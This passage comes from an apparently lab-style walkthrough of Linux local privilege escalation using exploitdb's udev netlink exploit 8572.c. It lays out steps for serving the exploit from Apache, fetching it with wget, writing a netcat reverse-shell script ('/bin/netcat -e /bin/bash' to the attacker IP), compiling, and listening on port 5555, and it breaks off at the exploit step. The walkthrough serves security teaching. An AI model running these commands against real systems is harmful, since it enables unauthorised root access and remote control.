 **service apache2 start**

![](https://cdn-images-1.medium.com/max/800/1*0QFy6Z9tLcfGIgzIG8UlYw.png)

2\. Coping the exploit into the apache server public directory

Exploit directory — /usr/share/exploitdb/exploits/linux/local/

Apache servers public directory: /var/www/html

**sudo /usr/share/exploitdb/exploits/linux/local/8572.c /var/www/html/ehsahil.c**

![](https://cdn-images-1.medium.com/max/800/1*9tJt9cfsIiOGuL5hYd45gg.png)

3\. Copying the exploit file into the vulnerable machine using wget.

**ParrotOS IP: 192.168.10.5**

**wget 192.168.10.5/ehsahil.c**

![](https://cdn-images-1.medium.com/max/800/1*6437GUmATZsYh_JTFCKDLg.png)

our exploit code “ehsahil.c” has been copied to /tmp directory.

4\. Creating a run file in /tmp directory — required by exploit

  
**touch run #creating run file required by the exploit**

**#bash script to get the reverse shell.   
echo '#!/bin/sh' > run   
echo '/bin/netcat -e /bin/bash 192.168.10.5 5555' >> run** 

![](https://cdn-images-1.medium.com/max/800/1*-ao3kWuYqG65en53xCUo9A.png)

5\. Compiling our exploit code.

**gcc ehsahil.c -o ehsahil**

![](https://cdn-images-1.medium.com/max/800/1*8Qs9R5MXSIq_H-L2CQUXLQ.png)

6\. listening on post 5555

**nc -lvnp 5555**

![](https://cdn-images-1.medium.com/max/800/1*clXSRX1L8wHiV4RzdCddWA.png)

7\. PID of the udev Netlink socket

**cat /proc/net/netlink**

![](https://cdn-images-1.medium.com/max/800/1*cGdctJb714h0xMgXfn5UzQ.png)

PID of the udev Netlink socket = **2718**

8\. Executable permission to Compiled Exploit.

**chmod 755 ehsahil**

9\. Exploit.
